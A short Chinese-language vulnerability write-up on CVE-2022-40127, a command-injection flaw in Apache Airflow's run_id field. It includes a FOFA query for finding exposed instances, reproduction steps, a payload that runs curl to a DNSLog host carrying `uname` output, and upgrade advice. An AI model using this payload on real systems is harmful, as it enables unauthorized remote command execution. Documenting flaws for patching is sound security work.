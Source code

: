 # Apache Airflow 远程代码执行漏洞 CVE-2022-40127

## 漏洞描述

Apache Airflow 是一个可编程，调度和监控的工作流平台，基于有向无环图（DAG），Airflow 可以定义一组有依赖的任务，按照依赖依次执行。

当攻击者可访问到 Apache Airflow 的后台，且环境中存在默认 Example Dags，则可构造恶意请求借助 run_id 执行任意命令。

## 漏洞影响

```
Airflow < 2.4.0
```

## FOFA

```
app="APACHE-Airflow"
```

## 漏洞复现

登录 Airflow，在任意 DAG 行，点击 Actions 列的三角符号，再点击“Trigger DAG w/ config”。

进入配置，在 Run id (Optional) 处输入 Payload：

```
{"lab":"\";curl `uname`.****.dnslog.pw;\""}
```

在 DNSLog 查看回显。

## 修复建议

官方已发布版本 2.4.3，可升级 Apache Airflow 版本到 2.4.0 或以上，或者停用默认 Dags。